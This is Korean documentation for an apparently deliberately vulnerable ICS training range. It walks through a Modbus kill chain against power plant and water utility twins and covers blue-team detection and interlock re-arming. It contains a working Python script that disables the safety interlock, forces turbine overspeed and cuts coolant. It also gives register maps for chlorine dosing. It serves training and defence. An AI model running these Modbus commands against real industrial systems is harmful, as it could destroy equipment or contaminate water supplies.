

# ICS 킬체인 — 실제 Modbus 공방 엔드투엔드

이 플랫폼의 ICS/OT 트윈은 HTTP 목이 아니라 **진짜 Modbus/TCP(502)** 를 말한다.
`mbpoll`·`pymodbus`·`metasploit` 의 modbus 모듈 같은 **실제 공격 도구가 그대로 붙는다**.
공격은 물리 결과(터빈 파괴·급수 오염)로 이어지고, 방어자는 이를 탐지·차단해 점수를 얻는다.

> ⚠️ 의도적으로 취약한 훈련 환경이다. 인터넷에 노출하지 말 것([SECURITY.md](../SECURITY.md)).

## 엔드투엔드 흐름



## 트윈 · 레지스터 맵

| 트윈 | 포트 | 홀딩 레지스터(쓰기) | 텔레메트리(읽기) | 안전 코일 | 인터록 해제 시 파국 |
|---|---|---|---|---|---|
| power_plant | 502 | HR0=TURBINE_RPM·HR1=COOLANT_FLOW | HR2=ACTUAL_RPM·HR3=TEMP·HR4=DAMAGE | coil0=SAFETY_INTERLOCK | 터빈 과속 파괴 |
| water_utility | 502 | HR0=CHLORINE_PPM·HR1=INTAKE_PUMP_RATE | HR2=RESERVOIR_PPM·HR5=CONTAMINATION | coil0=SAFETY_INTERLOCK | 급수 오염(공중보건) |

핵심 코드: `shared/ics/modbus.py`(프로토콜) · `safety.py`(SIS 판정) · `anomaly.py`(MITRE 분류) ·
`process_sim.py`(연속 물리). 트윈: `services/power_plant/main.py` · `services/water_utility/main.py`.

## 실습 — 실제 Modbus 로 발전소 파괴

pymodbus(권장) 또는 mbpoll 로 실제 공격한다. 아래는 로우 소켓 예시(의존성 0).

```python
import socket, struct, time
def modbus(host, port, pdu):
    s = socket.create_connection((host, port), timeout=3)
    s.sendall(struct.pack(">HHHB", 1, 0, len(pdu)+1, 1) + pdu)  # MBAP + PDU
    hdr = s.recv(7); ln = struct.unpack(">HHHB", hdr)[2]; body = s.recv(ln-1); s.close()
    return body

H, P = "pp_twin", 502
# 1) 정찰: 홀딩 레지스터 읽기(FC3) — 현재 RPM·유량·실측 RPM·온도
print(struct.unpack(">HHHH", modbus(H, P, struct.pack(">BHH", 3, 0, 4))[2:]))
# 2) 안전계장 무력화(FC5): SAFETY_INTERLOCK 코일 OFF  ← 이게 없으면 과속해도 트립됨
modbus(H, P, struct.pack(">BHH", 5, 0, 0x0000))
# 3) 과속 명령(FC6) + 냉각수 차단(FC6)
modbus(H, P, struct.pack(">BHH", 6, 0, 6000)); modbus(H, P, struct.pack(">BHH", 6, 1, 0))
# 4) 프로세스가 물리적으로 반응하는 걸 지켜본다 — ACTUAL_RPM/TEMP/DAMAGE 상승
for _ in range(20):
    time.sleep(1); print(struct.unpack(">HHH", modbus(H, P, struct.pack(">BHH", 3, 2, 3))[2:]))
```

관측(실측):

```text
인터록 OFF + 과속 → ACTUAL 3000→3400→3800→4200 (slew 제한, 즉시 아님)
                    TEMP  40→46→60→82           DAMAGE 3→42→100
DAMAGE 100 도달 → asset_compromised(catastrophic_failure)  # 터빈 파괴
```

> **핵심**: 값을 '쓰면 즉시'가 아니다. 공격자는 **SIS 를 먼저 무력화**하고 과속을 **지속**해야
> 파괴에 이른다(실제 Aurora/과속 파괴 패턴). 프로세스 응답을 읽고 추론해야 한다.

## 탐지 (Blue / SIEM)

트윈은 각 Modbus 쓰기를 **MITRE ATT&CK for ICS** 로 분류(`shared/ics/anomaly.py`)해 이벤트
metadata(`ics_technique`)와 SIEM access 로그로 발행한다. SIEM 규칙이 매칭하면
`blue_detection_success` 로 점수화된다(`services/siem/detection/rules/ics_layer.yaml`).

| 공격 | MITRE ICS | SIEM 규칙 |
|---|---|---|
| 보호 레지스터 무인증 쓰기 | T0855 Unauthorized Command | ICS-MODBUS-WRITE-PP/WU |
| 운전 밴드 이탈(과속/과투입) | T0836 Modify Parameter | ICS-MODBUS-WRITE-PP/WU |
| 안전 인터록 무력화 | T0878 Suppression of Alarms | ICS-SAFETY-INTERLOCK-SUPPRESS |

## 방어 (Blue) — SIS 재무장

위험 상태에서 Blue 가 **안전 인터록을 재무장**(코일 ON)하면 트립이 되살아나 파국을 막고,
`blue_block_success` 로 방어 점수를 얻는다:

```python
modbus("pp_twin", 502, struct.pack(">BHH", 5, 0, 0xFF00))  # SAFETY_INTERLOCK ON
# → blue_block_success(safety_interlock_rearmed) + DAMAGE 플래토(파국 방지)
```

Red 의 `T0878`(무력화)과 Blue 의 재무장이 **대칭 점수 루프**를 이룬다.

## 시나리오 (교관)

이 킬체인은 교관용 훈련 시나리오로 저작·검증돼 있다:
`scenarios/single/POWERPLANT-MODBUS-SABOTAGE-01.yaml`

- 스테이지: HMI 접근(T0812) → SIS 무력화(T0878) → 지속 과속 파괴(T0836, `asset_compromised`)
- Blue 목표: ICS-MODBUS-WRITE-PP · ICS-SAFETY-INTERLOCK-SUPPRESS
- P1-3 저작 도구로 검증: `GET /scenario/lint-all`(0-error) · `POST /scenario/validate` ·
  `GET /scenario/POWERPLANT-MODBUS-SABOTAGE-01/phase-clock?elapsed_sec=` · 러너 스테이지 판정

## AAR 연동

사후검토 리포트(`/report/aar`)의 `ics_protocol_attacks` 섹션이 프로토콜·레지스터별 공격을
집계한다. 인시던트·인젝트·무결성 섹션과 함께 훈련 전체를 종합한다([README](../README.md) 참고).
